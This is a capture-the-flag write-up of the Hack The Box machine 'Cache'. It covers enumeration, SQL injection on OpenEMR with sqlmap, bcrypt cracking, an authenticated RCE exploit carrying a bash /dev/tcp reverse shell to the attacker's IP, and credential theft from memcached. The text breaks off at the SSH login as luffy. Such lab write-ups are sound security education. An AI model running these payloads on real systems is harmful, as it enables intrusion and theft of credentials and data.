





---
search:
  exclude: true
---
# Cache Writeup

## Introduction :

Cache is a Medium Linux box released back in May 2020.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
    [ 10.66.66.2/32 ] [ /dev/pts/1 ] [~/HTB/cache]
    → nmap -vvv -p- 10.10.10.188 --max-retries 0 -Pn --min-rate=500 2>/dev/null | grep Discovered
    Discovered open port 80/tcp on 10.10.10.188
    Discovered open port 22/tcp on 10.10.10.188
    
    
    [ 10.66.66.2/32 ] [ /dev/pts/1 ] [~/HTB/cache]
    → nmap -sCV -p22,80 10.10.10.188
    Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-25 10:56 CEST
    Nmap scan report for 10.10.10.188
    Host is up (0.47s latency).
    
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey:
    |   2048 a9:2d:b2:a0:c4:57:e7:7c:35:2d:45:4d:db:80:8c:f1 (RSA)
    |   256 bc:e4:16:3d:2a:59:a1:3a:6a:09:28:dd:36:10:38:08 (ECDSA)
    |_  256 57:d5:47:ee:07:ca:3a:c0:fd:9b:a8:7f:6b:4c:9d:7c (ED25519)
    80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
    |_http-server-header: Apache/2.4.29 (Ubuntu)
    |_http-title: Cache
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 24.07 seconds
    
    

## **Part 2 : Getting User Access**

Our nmap scan picked up port 80 so let's investigate it: 

we see a domain name so let's add it to our hosts file:
    
    
    [ 10.66.66.2/32 ] [ /dev/pts/1 ] [~/HTB/cache]
    → sudo -i
    [sudo] password for nothing:
    ┌──(root💀nowhere)-[~]
    └─# echo '10.10.10.188 cache.htb' >> /etc/hosts
    
    ┌──(root💀nowhere)-[~]
    └─# ping -c1 cache.htb
    PING cache.htb (10.10.10.188) 56(84) bytes of data.
    64 bytes from cache.htb (10.10.10.188): icmp_seq=1 ttl=63 time=472 ms
    
    --- cache.htb ping statistics ---
    1 packets transmitted, 1 received, 0% packet loss, time 0ms
    rtt min/avg/max/mdev = 471.503/471.503/471.503/0.000 ms
    
    ┌──(root💀nowhere)-[~]
    └─# exit
    
    [ 10.66.66.2/32 ] [ /dev/pts/1 ] [~/HTB/cache]
    →
    

Now when we browse to login.html we get a hint that the server is using jquery:

So we can look for other jquery files with gobuster like so:
    
    
    [ 10.66.66.2/32 ] [ /dev/pts/1 ] [~/HTB/cache]
    → gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -u http://cache.htb -x js,txt,html
    
    

Which leads us to **http://cache.htb/jquery/functionality.js**
    
    
    [ 10.66.66.2/32 ] [ /dev/pts/1 ] [~/HTB/cache]
    → curl http://cache.htb/jquery/functionality.js
    $(function(){
    
        var error_correctPassword = false;
        var error_username = false;
    
        function checkCorrectPassword(){
            var Password = $("#password").val();
    **if(Password != 'H@v3_fun'){**
                alert("Password didn't Match");
                error_correctPassword = true;
            }
        }
        function checkCorrectUsername(){
            var Username = $("#username").val();
            if(Username != "ash"){
                alert("Username didn't Match");
                error_username = true;
            }
        }
        $("#loginform").submit(function(event) {
            /* Act on the event */
            error_correctPassword = false;
             checkCorrectPassword();
             error_username = false;
             checkCorrectUsername();
    
    
            if(error_correctPassword == false && error_username ==false){
                return true;
            }
            else{
                return false;
            }
        });
    
    });
    

And here you see some hardcoded password, although we don't know where to use it yet. Looking at the gobuster results we had in the background, we see the following:
    
    
    [ 10.66.66.2/32 ] [ /dev/pts/1 ] [~/HTB/cache]
    → gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -u http://cache.htb -x js,txt,html
    ===============================================================
    Gobuster v3.1.0
    by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
    ===============================================================
    [+] Url:                     http://cache.htb
    [+] Method:                  GET
    [+] Threads:                 50
    [+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
    [+] Negative Status codes:   404
    [+] User Agent:              gobuster/3.1.0
    [+] Extensions:              js,txt,html
    [+] Timeout:                 10s
    ===============================================================
    2021/06/25 11:17:47 Starting gobuster in directory enumeration mode
    ===============================================================
    /news.html            (Status: 200) [Size: 7235]
    /login.html           (Status: 200) [Size: 2421]
    /index.md           (Status: 200) [Size: 8193]
    /contactus.html       (Status: 200) [Size: 2539]
    **/author.html          (Status: 200) [Size: 1522]**
    /net.html             (Status: 200) [Size: 290]
    /javascript           (Status: 301) [Size: 311] [--> http://cache.htb/javascript/]
    
    

` 

Apparently there's another project called 'HMS' so let's add **hms.htb** to our hosts file:
    
    
    [ 10.66.66.2/32 ] [ /dev/pts/36 ] [~/HTB/cache]
    → sudo -i
    [sudo] password for nothing:
    ┌──(root💀nowhere)-[~]
    └─# echo '10.10.10.188 hms.htb' >> /etc/hosts
    
    ┌──(root💀nowhere)-[~]
    └─# ping -c1 hms.htb
    PING hms.htb (10.10.10.188) 56(84) bytes of data.
    64 bytes from cache.htb (10.10.10.188): icmp_seq=1 ttl=63 time=469 ms
    
    --- hms.htb ping statistics ---
    1 packets transmitted, 1 received, 0% packet loss, time 0ms
    rtt min/avg/max/mdev = 468.811/468.811/468.811/0.000 ms
    
    ┌──(root💀nowhere)-[~]
    └─# exit
    
    [ 10.66.66.2/32 ] [ /dev/pts/36 ] [~/HTB/cache]
    →
    
    

Now that's done let's check it out in the web browser:

Here we get an OpenEmr instance from 2018 let's enumerate it further with gobuster:
    
    
    [ 10.66.66.2/32 ] [ /dev/pts/1 ] [~/HTB/cache]
    → gobuster dir -u "http://hms.htb" -w /usr/share/seclists/Discovery/Web-Content/big.txt -x php
    ===============================================================
    Gobuster v3.1.0
    by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
    ===============================================================
    [+] Url:                     http://hms.htb
    [+] Method:                  GET
    [+] Threads:                 10
    [+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/big.txt
    [+] Negative Status codes:   404
    [+] User Agent:              gobuster/3.1.0
    [+] Extensions:              php
    [+] Timeout:                 10s
    ===============================================================
    2021/06/25 11:32:31 Starting gobuster in directory enumeration mode
    ===============================================================
    /.htaccess            (Status: 403) [Size: 272]
    /.htpasswd            (Status: 403) [Size: 272]
    /.htaccess.php        (Status: 403) [Size: 272]
    /.htpasswd.php        (Status: 403) [Size: 272]
    /LICENSE (Status: 200)
    /admin.php (Status: 200)
    /ci (Status: 301)
    /cloud (Status: 301)
    /common (Status: 301)
    /config (Status: 301)
    /contrib (Status: 301)
    /controller.php (Status: 200)
    /controllers (Status: 301)
    /custom (Status: 301)
    /entities (Status: 301)
    /images (Status: 301)
    /index.php (Status: 302)
    /interface (Status: 301)
    /javascript (Status: 301)
    /library (Status: 301)
    /modules (Status: 301)
    /myportal (Status: 301)
    /patients (Status: 301)
    /portal (Status: 301)
    /public (Status: 301)
    /repositories (Status: 301)
    /server-status (Status: 403)
    /services (Status: 301)
    /setup.php (Status: 200)
    /sites (Status: 301)
    /sql (Status: 301)
    /templates (Status: 301)
    /tests (Status: 301)
    /vendor (Status: 301)
    /version.php (Status: 200)
    
    

we take a look at the admin.php page:

So now we get the OpenEMR version which we will use later on for the following exploit:
    
    
    [ 10.66.66.2/32 ] [ /dev/pts/36 ] [~/HTB/cache]
    → searchsploit openEmr | grep 45161
    OpenEMR 5.0.1.3 - Remote Code Execution (Authenticated)                                                                                                                                                   | php/webapps/45161.py
    

This exploit says it requires authentication so we need to enumerate that service further, we can use this pdf [file](https://www.open-emr.org/wiki/images/1/11/Openemr_insecurity.pdf) which gives us a hint to take a look at **http://hms.htb/portal/find_appt_popup_user.php** :

After we click 'search' we see that it reveals the **catid=** parameter, so let's try to do a SQL injection on it: **?catid=1'**

We got some progress! now let's use sqlmap to speed that up, and to do so we're going to need the cookies we got on that php page:

    
    
    [ 10.66.66.2/32 ] [ /dev/pts/1 ] [~/HTB/cache]
    → sqlmap -u "http://hms.htb/portal/find_appt_popup_user.php?catid=1" --cookie="PHPSESSID=67s63uj7i9hj201podq5k7mms2;OpenEMR=srvdn0b5flokcrjdfoiv1aqdot" --dbs --batch --threads=5
            ___
           __H__
     ___ ___[]_____ ___ ___  {1.5.6#stable}
    |_ -| . [)]     | .| . |
    |___|_  []_|_|_|__,|  _|
          |_|V...       |_|   http://sqlmap.org
    
    [!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
    
    [*] starting @ 11:52:24 /2021-06-25/
    
    [11:52:24] [INFO] testing connection to the target URL
    [11:52:25] [INFO] testing if the target URL content is stable
    [11:52:26] [INFO] target URL content is stable
    [11:52:26] [INFO] testing if GET parameter 'catid' is dynamic
    [11:52:26] [WARNING] GET parameter 'catid' does not appear to be dynamic
    
    [...]
    
    GET parameter 'catid' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
    sqlmap identified the following injection point(s) with a total of 402 HTTP(s) requests:
    ---
    Parameter: catid (GET)
        Type: boolean-based blind
        Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
        Payload: catid=1' RLIKE (SELECT (CASE WHEN (3857=3857) THEN 1 ELSE 0x28 END))-- hgcX
    
        Type: error-based
        Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
        Payload: catid=1' AND GTID_SUBSET(CONCAT(0x71787a7671,(SELECT (ELT(8387=8387,1))),0x716b767071),8387)-- xaou
    
        Type: time-based blind
        Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
        Payload: catid=1' AND (SELECT 5222 FROM (SELECT(SLEEP(5)))icnP)-- NGjN
    ---
    [11:56:01] [INFO] the back-end DBMS is MySQL
    web server operating system: Linux Ubuntu 18.04 (bionic)
    web application technology: Apache 2.4.29
    back-end DBMS: MySQL >= 5.6
    [11:56:04] [INFO] fetching database names
    [11:56:05] [INFO] starting 2 threads
    [11:56:05] [INFO] retrieved: 'information_schema'
    [11:56:06] [INFO] retrieved: 'openemr'
    available databases [2]:
    [*] information_schema
    **[*] openemr**
    
    [11:56:06] [INFO] fetched data logged to text files under '/home/nothing/.local/share/sqlmap/output/hms.htb'
    
    [*] ending @ 11:56:06 /2021-06-25/
    
    

so sqlmap found the openemr database, now let's enumerate it further:
    
    
    [ 10.66.66.2/32 ] [ /dev/pts/1 ] [~/HTB/cache]
    → sqlmap -u "http://hms.htb/portal/find_appt_popup_user.php?catid=1" --cookie="PHPSESSID=67s63uj7i9hj201podq5k7mms2;OpenEMR=srvdn0b5flokcrjdfoiv1aqdot" -D openemr -T users_secure --dump --batch --threads=5
            ___
           __H__
     ___ ___[.]_____ ___ ___  {1.5.6#stable}
    |_ -| . [.]     | .| . |
    |___|_  []_|_|_|__,|  _|
          |_|V...       |_|   http://sqlmap.org
    
    [!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
    
    [*] starting @ 12:00:04 /2021-06-25/
    
    [12:00:04] [INFO] resuming back-end DBMS 'mysql'
    [12:00:04] [INFO] testing connection to the target URL
    sqlmap resumed the following injection point(s) from stored session:
    ---
    Parameter: catid (GET)
    
    [...]
    
    [12:00:06] [INFO] fetching columns for table 'users_secure' in database 'openemr'
    [12:00:06] [WARNING] reflective value(s) found and filtering out
    [12:00:06] [INFO] starting 5 threads
    [12:00:07] [INFO] retrieved: 'id'
    [12:00:07] [INFO] retrieved: 'username'
    [12:00:07] [INFO] retrieved: 'password'
    [12:00:08] [INFO] retrieved: 'bigint(20)'
    [12:00:08] [INFO] retrieved: 'last_update'
    [12:00:08] [INFO] retrieved: 'salt'
    [12:00:08] [INFO] retrieved: 'varchar(255)'
    [12:00:09] [INFO] retrieved: 'salt_history1'
    [12:00:09] [INFO] retrieved: 'timestamp'
    [12:00:09] [INFO] retrieved: 'varchar(255)'
    [12:00:09] [INFO] retrieved: 'varchar(255)'
    [12:00:09] [INFO] retrieved: 'password_history1'
    [12:00:09] [INFO] retrieved: 'varchar(255)'
    [12:00:09] [INFO] retrieved: 'password_history2'
    [12:00:09] [INFO] retrieved: 'salt_history2'
    [12:00:10] [INFO] retrieved: 'varchar(255)'
    [12:00:10] [INFO] retrieved: 'varchar(255)'
    [12:00:10] [INFO] retrieved: 'varchar(255)'
    [12:00:11] [INFO] fetching entries for table 'users_secure' in database 'openemr'
    [12:00:12] [INFO] retrieved: '1'
    [12:00:12] [INFO] retrieved: '2019-11-21 06:38:40'
    [12:00:12] [INFO] retrieved: '$2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B.'
    [12:00:13] [INFO] retrieved: ' '
    [12:00:13] [INFO] retrieved: ' '
    [12:00:14] [INFO] retrieved: '$2a$05$l2sTLIG6GTBeyBf7TAKL6A$'
    [12:00:14] [INFO] retrieved: ' '
    [12:00:15] [INFO] retrieved: ' '
    [12:00:15] [INFO] retrieved: 'openemr_admin'
    Database: openemr
    Table: users_secure
    [1 entry]
    +----+--------------------------------+--------------------------------------------------------------+---------------+---------------------+---------------+---------------+-------------------+-------------------+
    | id | salt                           | password                                                     | username      | last_update         | salt_history1 | salt_history2 | password_history1 | password_history2 |
    +----+--------------------------------+--------------------------------------------------------------+---------------+---------------------+---------------+---------------+-------------------+-------------------+
    | 1  | $2a$05$l2sTLIG6GTBeyBf7TAKL6A$ | **$2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B.** | openemr_admin | 2019-11-21 06:38:40 | NULL          | NULL          | NULL              | NULL              |
    +----+--------------------------------+--------------------------------------------------------------+---------------+---------------------+---------------+---------------+-------------------+-------------------+
    
    [12:00:16] [INFO] table 'openemr.users_secure' dumped to CSV file '/home/nothing/.local/share/sqlmap/output/hms.htb/dump/openemr/users_secure.csv'
    [12:00:16] [INFO] fetched data logged to text files under '/home/nothing/.local/share/sqlmap/output/hms.htb'
    
    [*] ending @ 12:00:15 /2021-06-25/
    
    

We may have found openemr_admin's password, but it's hashed so let's try to see which hash format it is:
    
    
    [ 10.66.66.2/32 ] [ /dev/pts/1 ] [~/HTB/cache]
    → hashid "\$2a\$05\$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B." -mj
    Analyzing '$2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B.'
    [+] Blowfish(OpenBSD) [Hashcat Mode: 3200][JtR Format: bcrypt]
    [+] Woltlab Burning Board 4.x
    [+] bcrypt [Hashcat Mode: 3200][JtR Format: bcrypt]
    
    

it is supposedly a bcrypt hash, let's try to crack it with john using rockyou.txt:
    
    
    [ 10.66.66.2/32 ] [ /dev/pts/1 ] [~/HTB/cache]
    → cat hash.txt
    $2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B.
    
    [ 10.66.66.2/32 ] [ /dev/pts/1 ] [~/HTB/cache]
    → john -w=/usr/share/wordlists/rockyou.txt hash.txt
    Using default input encoding: UTF-8
    Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
    Cost 1 (iteration count) is 32 for all loaded hashes
    Will run 4 OpenMP threads
    Press 'q' or Ctrl-C to abort, almost any other key for status
    xxxxxx           (?)
    1g 0:00:00:00 DONE (2021-06-25 12:31) 1.538g/s 1329p/s 1329c/s 1329C/s tristan..felipe
    Use the "--show" option to display all of the cracked passwords reliably
    Session completed
    
    

And after a few seconds, john finds the password being 'xxxxxx' so let's use the exploit we found earlier to get a reverse shell:
    
    
    [terminal 1]
    [ 10.66.66.2/32 ] [ /dev/pts/36 ] [~/HTB/cache]
    → python 45161.py http://hms.htb -u openemr_admin -p xxxxxx -c 'bash -i >& /dev/tcp/10.10.14.11/9001 0>&1'
     .---.  ,---.  ,---.  .-. .-.,---.          ,---.
    / .-. ) | .-.\ | .-'  |  \| || .-'  |\    /|| .-.\
    | | |(_)| |-' )| `-.  |   | || `-.  |(\  / || `-'/
    | | | | | |--' | .-'  | |\  || .-'  (_)\/  ||   (
    \ `-' / | |    |  `--.| | |)||  `--.| \  / || |\ \
     )---'  /(     /( __.'/(  (_)/( __.'| |\/| ||_| \)\
    (_)    (__)   (__)   (__)   (__)    '-'  '-'    (__)
    
       ={   P R O J E C T    I N S E C U R I T Y   }=
    
             Twitter : @Insecurity
             Site    : insecurity.sh
    
    [$] Authenticating with openemr_admin:xxxxxx
    [$] Injecting payload
    
    
    [terminal 2]
    [ 10.66.66.2/32 ] [ /dev/pts/24 ] [~/HTB/cache]
    → nc -lvnp 9001
    listening on [any] 9001 ...
    connect to [10.10.14.11] from (UNKNOWN) [10.10.10.188] 50144
    bash: cannot set terminal process group (1620): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@cache:/var/www/hms.htb/public_html/interface/main$ id
    id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    

And we get a reverse shell as www-data! Now let's get a fully interactive TTY:
    
    
    www-data@cache:/var/www/hms.htb/public_html/interface/main$ cd /tmp
    cd /tmp
    www-data@cache:/tmp$ which python python3 wget curl nc
    which python python3 wget curl nc
    /usr/bin/python3
    /usr/bin/wget
    /usr/bin/curl
    /bin/nc
    
    www-data@cache:/tmp$ python3 -c 'import pty;pty.spawn("/bin/bash")'
    python3 -c 'import pty;pty.spawn("/bin/bash")'
    
    www-data@cache:/tmp$ ^Z
    [1]  + 2355240 suspended  nc -lvnp 9001
    
    [ 10.66.66.2/32 ] [ /dev/pts/24 ] [~/HTB/cache]
    → stty raw -echo ; fg
    [1]  + 2355240 continued  nc -lvnp 9001
                                           export TERM=screen-256color
    
    www-data@cache:/tmp$ export SHELL=bash
    
    www-data@cache:/tmp$ stty rows 50 columns 200
    
    www-data@cache:/tmp$ reset
    
    

Now that we got a fully interactive TTY let's take a look around:
    
    
    www-data@cache:/tmp$ cat /etc/passwd
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
    mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
    uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
    proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
    www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
    backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
    list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
    irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
    gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
    nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
    systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
    systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
    syslog:x:102:106::/home/syslog:/usr/sbin/nologin
    messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
    _apt:x:104:65534::/nonexistent:/usr/sbin/nologin
    lxd:x:105:65534::/var/lib/lxd/:/bin/false
    uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
    dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
    landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
    pollinate:x:109:1::/var/cache/pollinate:/bin/false
    sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
    ash:x:1000:1000:ash:/home/ash:/bin/bash
    luffy:x:1001:1001:,,,:/home/luffy:/bin/bash
    memcache:x:111:114:Memcached,,,:/nonexistent:/bin/false
    mysql:x:112:115:MySQL Server,,,:/nonexistent:/bin/false
    
    www-data@cache:/tmp$ cat /home/ash/user.txt
    cat: /home/ash/user.txt: Permission denied
    
    

So now we know we need to privesc to the user ash, now a long time ago we found some credentials for the user ash so let's use themu - ash:
    
    
    www-data@cache:/tmp$ su - ash
    Password: H@v3_fun
    ash@cache:~$ cat user.txt
    65XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    
    

And that's it! We managed to get the user flag.

## **Part 3 : Getting Root Access**

Now in order to privesc to the root user we need to enumerate the box using linpeas.sh:
    
    
    [terminal 1]
    [ 10.66.66.2/32 ] [ /dev/pts/37 ] [~/HTB/cache]
    → cp /home/nothing/HTB/mango/linpeas.sh .
    
    [ 10.66.66.2/32 ] [ /dev/pts/37 ] [~/HTB/cache]
    → python3 -m http.server 9090
    Serving HTTP on 0.0.0.0 port 9090 (http://0.0.0.0:9090/) ...
    
    [terminal 2]
    ash@cache:~$ wget http://10.10.14.11:9090/linpeas.sh -O /tmp/peas.sh
    --2021-06-25 10:52:30--  http://10.10.14.11:9090/linpeas.sh
    Connecting to 10.10.14.11:9090... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 341863 (334K) [text/x-sh]
    Saving to: ‘/tmp/peas.sh’
    
    /tmp/peas.sh            2021-06-25 10:52:34 (130 KB/s) - ‘/tmp/peas.sh’ saved [341863/341863]
    
    ash@cache:~$ chmod +x /tmp/peas.sh
    ash@cache:~$ /tmp/peas.sh
    
    

` 

Let it run a bit and then scroll through the output, and you will get hints towards memcached:

Memcached is listening on port 11211 on localhost:
    
    
    ash@cache:~$ netstat -l
    Active Internet connections (only servers)
    Proto Recv-Q Send-Q Local Address           Foreign Address         State
    tcp        0      0 localhost.localdo:mysql 0.0.0.0:*               LISTEN
    tcp        0      0 localhost.localdo:11211 0.0.0.0:*               LISTEN
    tcp        0      0 localhost:domain        0.0.0.0:*               LISTEN
    tcp        0      0 0.0.0.0:ssh             0.0.0.0:*               LISTEN
    tcp6       0      0 [::]:http               [::]:*                  LISTEN
    tcp6       0      0 [::]:ssh                [::]:*                  LISTEN
    udp        0      0 localhost:domain        0.0.0.0:*
    raw6       0      0 [::]:ipv6-icmp          [::]:*                  7
    
    

So let's enumerate the memcached service from telnet:
    
    
    ash@cache:~$ telnet localhost 11211
    Trying ::1...
    Trying 127.0.0.1...
    Connected to localhost.
    Escape character is '^]'.
    
    stats slabs
    STAT 1:chunk_size 96
    STAT 1:chunks_per_page 10922
    STAT 1:total_pages 1
    STAT 1:total_chunks 10922
    STAT 1:used_chunks 5
    STAT 1:free_chunks 10917
    STAT 1:free_chunks_end 0
    STAT 1:mem_requested 371
    STAT 1:get_hits 0
    STAT 1:cmd_set 595
    STAT 1:delete_hits 0
    STAT 1:incr_hits 0
    STAT 1:decr_hits 0
    STAT 1:cas_hits 0
    STAT 1:cas_badval 0
    STAT 1:touch_hits 0
    STAT active_slabs 1
    STAT total_malloced 1048576
    END
    
    

After running **stats slabs** we see that there is only 1 object in memory, so let's fetch the keys we need:
    
    
    stats cachedump 1 0
    ITEM link [21 b; 0 s]
    ITEM user [5 b; 0 s]
    ITEM passwd [9 b; 0 s]
    ITEM file [7 b; 0 s]
    ITEM account [9 b; 0 s]
    END
    
    

So let's now dump all the values we got here:
    
    
    get link
    VALUE link 0 21
    https://hackthebox.eu
    END
    
    get user
    VALUE user 0 5
    luffy
    END
    
    get passwd
    VALUE passwd 0 9
    0n3_p1ec3
    END
    
    get file
    VALUE file 0 7
    nothing
    END
    
    get account
    VALUE account 0 9
    afhj556uo
    END
    
    

And we got credentials! **luffy:0n3_p1ec3** So let's login via SSH:
    
    
    [ 10.66.66.2/32 ] [ /dev/pts/1 ] [~/HTB/cache]
    → ssh luffy@cache.htb
    luffy@cache.htb's password:
    Welcome to Ubuntu 18.04.2 LTS (GNU/Linux 4.15.0-109-generic x86_64)
    
     * Documentation:  https://help.ubuntu.com
     * Management:     https://landscape.canonical.com
     * Support:        https://ubuntu.com/advantage
    
      System information as of Fri Jun 25 11:01:24 UTC 2021
    
      System load:  0.08              Processes:              185
      Usage of /:   75.4% of 8.06GB   Users logged in:        0
      Memory usage: 22%               IP address for ens160:  10.10.10.188
      Swap usage:   0%                IP address for docker0: 172.17.0.1
    
    
